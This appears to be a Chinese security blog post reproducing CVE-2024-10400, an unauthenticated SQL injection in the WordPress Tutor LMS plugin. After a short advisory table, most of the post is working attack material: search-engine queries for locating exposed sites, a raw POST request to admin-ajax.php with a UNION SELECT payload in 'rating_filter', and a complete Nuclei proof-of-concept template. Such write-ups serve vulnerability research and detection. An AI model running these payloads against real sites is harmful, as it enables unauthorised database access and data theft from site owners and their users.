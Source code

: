 #  【漏洞复现】CVE-2024-10400   
混子Hacker  混子Hacker   2024-12-25 07:57  
  
<table><tbody><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><td data-colwidth="576" width="576" valign="top" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;visibility: visible;"><section style="margin-bottom: 0px;color: rgb(255, 255, 255);letter-spacing: 0.578px;text-align: center;-webkit-tap-highlight-color: transparent;outline: 0px;border-top-color: rgb(255, 255, 255);visibility: visible;"><strong style="font-family: inherit;font-size: 1em;letter-spacing: 0.578px;text-decoration: inherit;-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;color: rgb(217, 33, 66);visibility: visible;"><span leaf="">免责声明</span></span></strong></section><section style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;">请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不承担任何法律及连带责任。</span></section></td></tr></tbody></table>  
  
  
[   
漏洞简介   
]  
  
——    
平凡是生活的本色，不凡是生命的追求  
   
——  
  
CVE-2024-10400  
  
WordPress 的 Tutor LMS 插件在 2.7.6 及 2.7.6 之前的所有版本中存在通过 “rating_filter ”参数进行 SQL 注入的漏洞，原因是用户提供的参数未进行充分的转义处理，而且现有的 SQL 查询也未进行预编译。这使得未经认证的攻击者有可能在已有的查询中附加额外的 SQL 查询，从而从数据库中提取敏感信息。  
  
  
  
<table><tbody><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;visibility: visible;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-color: windowtext;visibility: visible;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;middle&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,{&#34;tagName&#34;:&#34;section&#34;,&#34;attributes&#34;:{&#34;style&#34;:&#34;text-align: center;&#34;},&#34;namespaceURI&#34;:&#34;&#34;}]" style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;">影响范围</span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;font-size: 14px;visibility: visible;"><strong style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-family: &#34;Microsoft YaHei UI&#34;;visibility: visible;"><span leaf=""><br/></span></span></strong></span></p></td><td colspan="2" valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-color: windowtext;visibility: visible;"><section style="-webkit-tap-highlight-color: transparent;outline: 0px;text-indent: 2em;visibility: visible;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;font-family: 微软雅黑, &#34;sans-serif&#34;;font-size: 14px;visibility: visible;"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;visibility: visible;">Tutor LMS &lt;= 2.7.6</span></span></section></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;middle&#34;,&#34;align&#34;:&#34;center&#34;,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;">漏洞评分</span><strong style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></strong></p></td><td colspan="2" valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">7.5</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;color: rgb(255, 0, 0);"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;"></span></span></p></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td rowspan="3" valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;middle&#34;,&#34;align&#34;:&#34;center&#34;,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;">利用条件</span><strong style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></strong></p></td><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">用户认证</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></p></td><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">无</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;color: rgb(0, 0, 0);"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><br/></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;"></span></span></p></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">利用难度</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></p></td><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">低</span></span><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;color: rgb(0, 0, 0);"><span leaf=""><br/></span></span></p></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><section style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">所需权限</span></span></section></td><td valign="middle" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><section style="margin: -14px 16px 0px;letter-spacing: 0.578px;text-wrap: wrap;outline: 0px;border-style: none;border-top-color: rgb(178, 178, 178);line-height: 1.4;"><span leaf="" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">无</span></span></section></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 42px;"><td valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;middle&#34;,&#34;align&#34;:&#34;center&#34;,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;">解决方案</span><strong style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;letter-spacing: 1px;font-size: 14px;font-family: &#34;Microsoft YaHei UI&#34;;"><span leaf=""><br/></span></span></strong></p></td><td colspan="2" valign="center" align="center" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-top-style: none;border-right-color: windowtext;border-bottom-color: windowtext;border-left-color: windowtext;"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span leaf="" data-pm-slice="1 1 [&#34;table&#34;,{&#34;interlaced&#34;:null,&#34;align&#34;:null,&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_body&#34;,{},&#34;table_row&#34;,{&#34;class&#34;:null,&#34;style&#34;:null},&#34;table_cell&#34;,{&#34;colspan&#34;:1,&#34;rowspan&#34;:1,&#34;colwidth&#34;:[287],&#34;width&#34;:null,&#34;valign&#34;:&#34;top&#34;,&#34;align&#34;:null,&#34;style&#34;:null},&#34;para&#34;,null]" style="-webkit-tap-highlight-color: transparent;outline: 0px;"><span textstyle="" style="font-size: 14px;">已发布</span></span></p></td></tr></tbody></table>  
  
  
漏洞信息  
  
**混子Hacker**  
  
**01**  
  
资产测绘  
  
```
fofa: body="/wp-content/plugins/tutor/"
Quake：body:"/wp-content/plugins/tutor/" 

# 风里雨里，我都在quake等你。个人中心输入邀请码“lnBNF0”你我均可获得5,000长效积分哦，地址 quake.360.net
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvnEic8TfUZGbkLM8CZh6jGUrmibUQWHrjZUkichyEvErUzhWca5HmSgianoFkAaqqWicqqVtvDdwe8Rxg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvnEic8TfUZGbkLM8CZh6jGU0XO0tOF3Xr3C5ics077aY1rK9s0ibSEZr4XDFukSZibDd19wnOyMSibQEw/640?wx_fmt=png&from=appmsg "")  
  
  
  
**混子Hacker**********  
  
**02**  
  
漏洞复现  
  
  
  
1、访问首页获取，_tutor_nonce值  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvnEic8TfUZGbkLM8CZh6jGU4QgVxDP84GkiaIZJA3ypic7aORjRmU97RYAlb2DyUjnAicgNsCduWAysQ/640?wx_fmt=png&from=appmsg "")  
  
2、带上_tutor_nonce值访问/wp-admin/admin-ajax.php  
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 166

action=load_filtered_instructor&_tutor_nonce=faf2dbeb1c&rating_filter=1e0+and+1=0+Union+select+111,2222,3333,4,5,6,7,8,9,concat(md5(999999999),version()),11,12,14--+-
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvnEic8TfUZGbkLM8CZh6jGUwnTKTG0AL4xdra3uRdqJ7A9wD7cFdsqjtHetoRInttlMJoaFqiaIhvw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**混子Hacker**********  
  
**03**  
  
Nuclei Poc  
  
  
```
id: CVE-2024-10400

info:
  name: Tutor LMS <= 2.7.6 - SQL Injection
  author: iamnoooob,rootxharsh,pdresearch
  severity: high
  description: |
    The Tutor LMS plugin for WordPress is vulnerable to SQL Injection via the ‘rating_filter’ parameter in all versions up to, and including, 2.7.6 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.
  reference:
    - https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/tutor/tutor-lms-276-unauthenticated-sql-injection-via-rating-filter
    - https://nvd.nist.gov/vuln/detail/CVE-2024-10400
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
    cvss-score: 7.5
    cve-id: CVE-2024-10400
    cwe-id: CWE-89
    cpe: cpe:2.3:a:themeum:tutor_lms:*:*:*:*:*:wordpress:*:*
  metadata:
    verified: true
    max-request: 2
    vendor: themeum
    product: tutor_lms
    framework: wordpress
    shodan-query: html:"/wp-content/plugins/tutor/"
    fofa-query: body="/wp-content/plugins/tutor/"
  tags: cve,cve2024,tutor-lms,lms,sqli

variables:
  num: '999999999'

http:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}

    extractors:
      - type: regex
        part: body
        internal: true
        name: nonce
        group: 1
        regex:
          - '"_tutor_nonce":"([a-z0-9]+)"'

  - raw:
      - |
        POST /wp-admin/admin-ajax.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        action=load_filtered_instructor&_tutor_nonce={{nonce}}&rating_filter=1e0+and+1=0+Union+select+111,2222,3333,4,5,6,7,8,9,concat(md5({{num}}),version()),11,12,14--+-

    matchers:
      - type: word
        part: body
        words:
          - '{{md5(num)}}'
          - '"success":true'
        condition: and

    extractors:
      - type: regex
        part: body
        group: 1
        regex:
          - 'alt=\\".*?:(.*?)\\"'
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvnEic8TfUZGbkLM8CZh6jGUmzicysqBBvIflsEvpOicxBp86xzFBIPFuXQsec7osBqwqmZfb2GESOHQ/640?wx_fmt=png&from=appmsg "")  
  
  
<<<    
END   
>>>  
  
  
  
原创文章｜转载请附上原文出处链接  
  
更多漏洞｜关注作者查看  
  
作者｜混子Hacker  
  
  
  
